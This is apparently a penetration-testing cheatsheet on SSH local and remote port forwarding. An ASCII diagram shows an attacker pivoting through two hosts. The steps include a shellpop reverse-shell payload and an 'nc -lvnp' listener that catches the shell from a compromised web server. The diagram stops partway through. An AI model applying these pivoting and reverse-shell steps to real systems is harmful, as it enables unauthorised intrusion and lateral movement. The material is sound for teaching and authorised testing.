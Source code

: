 ### Local vs Remote Port Forwarding

A cheatsheet for SSH Local/Remote Forwarding command syntax:

* `-L 1111:127.0.0.1:2222`: the traffic is forwarded *from SSH client via SSH server*, so `1111` is listening on *client-side* and traffic is sent to `2222` on *server-side*.
* `-R 2222:127.0.0.1:1111`: the traffic is forwarded *from SSH server via SSH client*, so `2222` is listening on *server-side* and traffic is sent to `1111` on *client-side*.

Consider the following example. An attacker has root privileges on Pivot1. He creates the first SSH tunnel (remote port forwarding) to interact with a vulnerable web server on Pivot2. Then he exploits the vulnerability on Pivot2 and triggers it to connect back to Attacker via a reverse-shell (firewall is active, so he needs to pivot through port 443, which is allowed). After that the attacker performs PE on Pivot2 and gets root. Then he creates another tunnel (local port forwarding) over the first one to SSH into Pivot2 from Attacker. Finally, he forwards port 80 over two existing hops to reach another vulnerable web server on Victim.

```
  Attacker (10.10.13.37)                                                    Pivot1 (10.1.1.1)                                  Pivot2 (10.2.2.2)                   Victim (10.3.3.3)
┌──────────────────────────────────────────────────────────────────────┐  ┌───────────────────────────────────────────────┐  ┌────────────────────────────────┐  ┌───────────────────┐
│                                                                   22 │  │                                               │  │                                │  │                   │
│ 1.  ssh -R 443:127.0.0.1:9001 root@10.1.1.1 ------------------------------► 10.1.1.1:22                                 │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 2.                                                                   │  │   Listens 0.0.0.0:443 ("GatewayPorts yes")    │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 3.                                                                   │  │   ~C ssh> -L 9002:10.2.2.2:80                 │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 4.  Listens 127.0.0.1:9002 (to interact with web server 10.2.2.2:80) │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 5.  shellpop -H 10.2.2.2 -P 443 --reverse --number 8 --base64        │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                9001 over 10.1.1.1:22 │  │                                           443 │  │                                │  │                   │
│ 6.  rlwrap nc -lvnp 9001 ◄--- 127.0.0.1:9001 ◄----------------------------- 0.0.0.0:443 ◄───────────────────────────────┼──┼── Web server 10.2.2.2:80       │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 7.  Got shell from 10.2.2.2                                          │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 8.  Got root on 10.2.2.2                                             │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │   ~C ssh> -L 9003:127.0.0.1:1337              │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 9.  Listens 127.0.0.1:9003                                           │  │                                               │  │                                │  │                   │
```